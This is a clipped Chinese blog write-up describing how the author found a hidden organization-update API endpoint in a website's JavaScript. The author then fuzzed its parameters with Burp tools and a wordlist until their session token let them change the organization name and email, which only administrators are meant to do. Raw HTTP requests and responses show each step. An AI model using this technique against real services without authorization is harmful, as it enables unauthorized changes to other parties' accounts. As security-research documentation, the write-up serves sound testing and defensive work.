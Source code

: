 ```yaml
---
title: 利用JS文件检查与Fuzz进行越权操作
url: https://mp.weixin.qq.com/s/OzUasalwDCfRzcluUiTZvA
clipped_at: 2024-03-24 08:39:59
category: default
tags: 
 - mp.weixin.qq.com
---
```



# 利用JS文件检查与Fuzz进行越权操作

漏洞的发现是通过检查网站源代码中的JS文件，在这些JS文件中，发现了一些可疑API端点。通过Fuzz技术来确认这些API端点的参数，并最终对高权限API端点进行越权操作。  

# 好的，让我们现在开始吧！

在这个网站上，我们可以在所在的组织内创建项目。但是组织名称和电子邮件地址是无法更改的！如果想要更改它们，需要联系管理员或支持团队！

![图片](assets/1711240799-119da14851ec25b6854db14cba508cff.webp)

首先，当我检查JS文件时，发现了很多文件，但有一个特定的文件引起了我的注意，因为它包含了该网站使用的许多API端点的请求！该网站使用API系统地址是：

```plain
https://target.com/endpoints/organization/<ACTION>
```

在那个我提到的JS文件中，我发现了一个有趣的端点：

```plain
/endpoints/organization/update
```

JS文件中源码如下

```plain
saveOrganization: async a => _({
            method: "PUT",
            endpoint: "/endpoints/organization/update",
            body: a
        }).then(r => n(r)),
```

我想知道这个端点在做什么。

所以我按照JS源码中的格式构造了一个数据包发送。就像下面这样。

```plain
PUT /endpoints/organization/update HTTP/2
Host: home.target.com
Cookie: XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: application/json
Referer: <https://home.target.com/>
Content-Type: application/json
Content-Length: 76
Origin: <https://home.target.com/>
```

返回了一个预期响应结果，因为我没有在PUT请求中添加任何数据。

```plain
HTTP/2 500 Internal Server Error

{"error": {"code": "500", "message": "A server error has occurred"}}
```

因此我决定发送一些随机数据({"hello":"goodbye"})，测试一下这个端点。

```plain
PUT /endpoints/organization/update HTTP/2
Host: home.target.com
Cookie: XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: application/json
Referer: https://home.target.com/
Content-Type: application/json
Content-Length: 76
Origin: https://home.target.com/

{"hello":"goodbye"}
```

```plain
HTTP/2 500 Internal Server Error]

{"message":"Error: This user does not have admin access!","type":"error"}
```

我在这个网站上搜索了将近4，5天，我知道哪些参数可能会是那个会话/令牌！！

这个令牌是必需的，并且在API端点的所有请求中使用。每个账户都有一个特定的令牌，但每个API端点都用不同的名称来调用该令牌，比如一个API端点调用它为code，另一个API端点调用为token，session，tokenId，session\_id，access，org\_id，id，org或user。

我还使用了一个名为Param Miner的Burp扩展，它会收集Burp历史记录中特定目标请求的所有参数。这对于清楚地提取这些参数名称非常有帮助！因此，我从一个随机请求中获取了一个令牌，并开始逐个使用所有这些参数名称发送它。

Boom！！最终！！我使用了自己的令牌的session\_id！一切正常！

```plain
PUT /endpoints/organization/update HTTP/2
Host: home.target.com
Cookie: XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: application/json
Referer: https://home.target.com/
Content-Type: application/json
Content-Length: 76
Origin: https://home.target.com/

{"session_id":"9n5n6zxxxxxxxxxllye4ul"}
```

```plain
HTTP/2 400 Bad Request
{"message":"No data to update"}
```

现在我的会话已成功验证！！服务器回复“没有数据需要更新”，这意味着它正在等待我提交一个值来进行更改！！

现在是时候对我可以更改的参数进行模糊测试了。显然，我在此过程中使用了字典来对参数进行Fuzz：https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt。

将我的请求发送到Burp的Intruder中，粘贴了我的列表，发送了一个数据如下：{"session\_id":"9n5n6zdxxxxxxxx05llye4ul", "":"changevalueeeee"}

我开始进行模糊测试后的3-4分钟里，我注意到了不同的状态码和响应长度，我必须检查一下！在这里，我找到了一个允许我更改组织名称/电子邮件的请求！但这不允许！这个操作只能由管理员/支持人员执行！

```plain
PUT /endpoints/organization/update HTTP/2
Host: home.target.com
Cookie: XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: application/json
Referer: https://home.target.com/
Content-Type: application/json
Content-Length: 76
Origin: https://home.target.com/

{"session_id":"9n5n6xxxxxxxxxxc05llye4ul", "name":"changevalueeeee"}
```

```plain
HTTP/2 200 OK
{"billing_enabled":false,"billing_type":"trial","created_at":1676997471,"data_streams_plan":"starter","email_address":"xxxxxxxxxxx@xxxxxxxx.xxx","feature_flag":{"allow_usage_billing":false,"forever_free_tier":false},"first_non_auth_api_call_made":null,"id":"2lxxxxxxxxxxzf49rtjd8ia","invoices":null,"is_marketplace_org":false,"marketplace_id":null,"name":"changevalueeeee","stripe_customer_id":null,"trial_end_date":1678207071}
```

在我的响应中，我看到了"email\_address":"xxxxxxxxxxx@xxxxxxxx.xxx"，那是我的组织电子邮件地址，我无法更改它！！

我尝试将其发送到POST数据中并设置一个新的电子邮件地址，所以我发送了email\_address和session\_id以及name。然后得到了：

![图片](assets/1711240799-163ed0e13a322f77917c865ee1e84b43.webp)

就这样，成功hack了它。可以进行越权操作，修改组织的信息。